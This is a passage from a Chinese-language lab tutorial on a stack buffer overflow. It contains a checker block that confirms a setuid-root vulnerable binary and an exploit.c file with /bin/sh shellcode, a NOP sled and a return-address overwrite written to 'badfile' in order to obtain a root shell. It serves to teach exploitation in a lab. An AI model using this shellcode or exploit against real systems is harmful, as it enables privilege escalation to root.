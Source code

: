 ```checker
- name: check stack.c
  script: |
    #!/bin/bash
    ls /home/shiyanlou/tmp/stack.c
  error: /home/shiyanlou/tmp 目录下没有 stack.c
- name: check stack
  script: |
    #!/bin/bash
    ls /home/shiyanlou/tmp/stack
    stat -c %a /home/shiyanlou/tmp/stack |grep 4755
  error: 没有编译 stack.c 或者权限不对
- name: check owner
  script: |
    #!/bin/bash
    stat -c %U /home/shiyanlou/tmp/stack |grep root
  error: stack 所有者不是 root
```

###3.4 攻击程序

我们的目的是攻击刚才的漏洞程序，并通过攻击获得 `root` 权限。

在 `/home/shiyanlou/tmp` 目录下新建一个 `exploit.c` 文件，输入如下内容：

```c
/* exploit.c */
/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[] =
    "\x31\xc0" //xorl %eax,%eax
    "\x50"     //pushl %eax
    "\x68""//sh" //pushl $0x68732f2f
    "\x68""/bin"     //pushl $0x6e69622f
    "\x89\xe3" //movl %esp,%ebx
    "\x50"     //pushl %eax
    "\x53"     //pushl %ebx
    "\x89\xe1" //movl %esp,%ecx
    "\x99"     //cdq
    "\xb0\x0b" //movb $0x0b,%al
    "\xcd\x80" //int $0x80
    ;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */
    strcpy(buffer,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x??\x??\x??\x??");   //在buffer特定偏移处起始的四个字节覆盖sellcode地址  
    strcpy(buffer + 100, shellcode);   //将shellcode拷贝至buffer，偏移量设为了 100

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```
